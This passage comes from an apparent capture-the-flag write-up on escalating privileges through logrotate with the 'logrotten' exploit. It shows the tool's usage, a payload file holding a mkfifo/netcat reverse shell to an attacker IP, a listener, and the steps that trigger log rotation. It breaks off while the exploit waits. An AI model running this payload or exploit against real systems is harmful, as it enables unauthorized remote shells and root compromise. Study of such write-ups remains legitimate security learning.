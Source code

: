 reader@book:/tmp$ gcc logrotten.c -o logrotten
reader@book:/tmp$ ./logrotten 
usage: logrotten [OPTION...] <logfile>
  -h  --help                 Print this help               
  -t  --targetdir <dir>      Abosulte path to the target directory
  -p  --payloadfile <file>   File that contains the payload
  -s  --sleep <sec>          Wait before writing the payload
  -d  --debug                Print verbose debug messages  
  -c  --compress             Hijack compressed files instead of created logfiles
  -o  --open                 Use IN_OPEN instead of IN_MOVED_FROM
{% endhighlight %}

To use `logrotten`, we need to prepare a script that will act as our payload.  

{% highlight bash %}
cat payloadfile
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.XX.XX 1337 >/tmp/f
{% endhighlight %}

The above script creates a reverse shell connection back to us, so need to prepare a listener as well using `nc`.

{% highlight bash %}
$ nc -lvnp 1337
listening on [any] 1337 ...
{% endhighlight %}

Lastly, we will need to target a suitable log file that is configured to create a new copy of itself when rotated. Coincidentially, there was a `access.log` in `/home/reader/backups/`. Echoing a line into it causes it to rotate immediately!

{% highlight bash %}
reader@book:~/backups$ ls -al 
total 8
drwxr-xr-x 2 reader reader 4096 Jul 11 13:58 .
drwxr-xr-x 7 reader reader 4096 Jan 29 13:05 ..
-rw-r--r-- 1 reader reader    0 Jul 11 13:42 access.log
reader@book:~/backups$ echo something >> access.log
reader@book:~/backups$ ls -al 
total 12
drwxr-xr-x 2 reader reader 4096 Jul 11 13:59 .
drwxr-xr-x 7 reader reader 4096 Jan 29 13:05 ..
-rw-r--r-- 1 reader reader    0 Jul 11 13:59 access.log
-rw-r--r-- 1 reader reader   10 Jul 11 13:59 access.log.1
{% endhighlight %}

To execute `logrotten` successfully, I will need to start another `ssh` session that will echo the line into `access.log` while my current `ssh` session will execute `logrotten`.

On current `ssh` session:

{% highlight bash %}
reader@book:/tmp$ ./logrotten -p payloadfile /home/reader/backups/access.log
Waiting for rotating /home/reader/backups/access.log...
{% endhighlight %}
